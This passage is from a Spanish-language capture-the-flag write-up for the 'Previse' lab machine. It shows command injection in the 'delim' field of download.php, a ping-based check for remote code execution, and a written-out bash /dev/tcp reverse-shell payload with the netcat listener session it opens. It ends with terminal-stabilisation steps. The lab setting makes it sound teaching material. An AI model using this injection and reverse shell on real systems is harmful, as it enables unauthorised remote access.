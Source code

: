 ¡¡Encontramos una función **exec** que pertenece a logs.php!!. Ojeando en download.php vemos que tiene que ver con la elección de un delimitador a la hora de exportar un fichero out.log que muestra los usuarios que se han descargado el backup, la hora y el file ID. 

Sin ver el código también podríamos haber intentado una inyección de código en el campo **delim** al suponernos que detrás se realiza una coincidiencia en patrones de texto y reconstruyendo el contenido con el deliminitador indicado. Puede que en vez de una comparativa dentro del php llamará fuera de este para hacerla con bash.

## Explotación

Interceptaré la petición de download.php por burpsuite e intentaré inyectar comandos.

![Submit]({{ 'assets/img/writeups/Previse/submit.png' | relative_url }}){: .center-image }

Y ya desde burpsuite introduzco en el campo delim un ping a mi ordenador para comprobar que tengo RCE.

![Burpsuite-Ping]({{ 'assets/img/writeups/Previse/burpPing.png' | relative_url }}){: .center-image }

Recibo la petición:
```
❯ tcpdump -i tun0 icmp -n

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:04:33.585348 IP 10.10.11.104 > 10.10.14.7: ICMP echo request, id 2384, seq 1, length 64
10:04:33.585461 IP 10.10.14.7 > 10.10.11.104: ICMP echo reply, id 2384, seq 1, length 64
```

De perlas, ahora toca mandarnos la reverse shell, en vez de el ping mando este comando:
```
delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.14.7/443 0>%261'
``` 
Estoy en escucha en mi terminal;
```
> nc -nlvp 443

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.104] 58900
bash: cannot set terminal process group (1426): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ whoami
whoami
www-data
```

Hay que realizar un **tratamiento de la tty** porque sino al hacer Ctrl + C se nos irá a la puñeta, además de otras inconveniencias.

Desde máquina objetivo:
``` 
www-data@previse:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
```
Desde mi máquina:
```
> stty raw -echo; fg
        reset xterm
```
Y me retorna a la máquina objetivo;
```
www-data@previse:/$ export TERM=xterm
www-data@previse:/$ export SHELL=bash
www-data@previse:/$ stty rows 38 columns 184
```